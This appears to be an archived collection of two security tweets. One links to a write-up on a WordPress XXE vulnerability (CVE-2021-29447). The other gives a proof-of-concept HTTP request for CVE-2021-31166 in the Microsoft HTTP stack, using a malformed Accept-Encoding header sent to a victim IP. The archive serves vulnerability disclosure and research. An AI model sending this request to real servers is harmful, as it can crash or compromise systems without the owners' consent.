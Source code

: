 
# WPSecScanner
**https://twitter.com/WPSecScanner/status/1395679771103748096 _at 2021-05-21 09:56:02_**
<blockquote>
WordPress XXE Vulnerability in Media Library – CVE-2021-29447

https://t.co/x48Pt2ZlL7

#BugBounty #XXE #WordPress #Vulnerability #CyberSecurity #PenTest #PenetrationTest #Writeup
</blockquote>

* https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>298</code></td>
<td>Favorites: <code>4845</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1395668830563618818 _at 2021-05-21 09:12:34_**
<blockquote>
[CVE-2021-31166] MS HTTP Protocol Stack RCE #PoC

GET / HTTP/1.1
Host: [VictimIP]
Accept-Encoding: xx, aa, bb, , 

-&gt; Accept-Encoding: [unknown content-coding], [unknown content-coding], [unknown content-coding], [Null], [CRLF]

https://t.co/vP4DI6IAkm https://t.co/HSRaVupAeb
</blockquote>

* https://github.com/0vercl0k/CVE-2021-31166

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+E15pZJnUYAQF9fT.png" alt="http://pbs.twimg.com/media/E15pZJnUYAQF9fT.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>149</code></td>
</tr></table>

---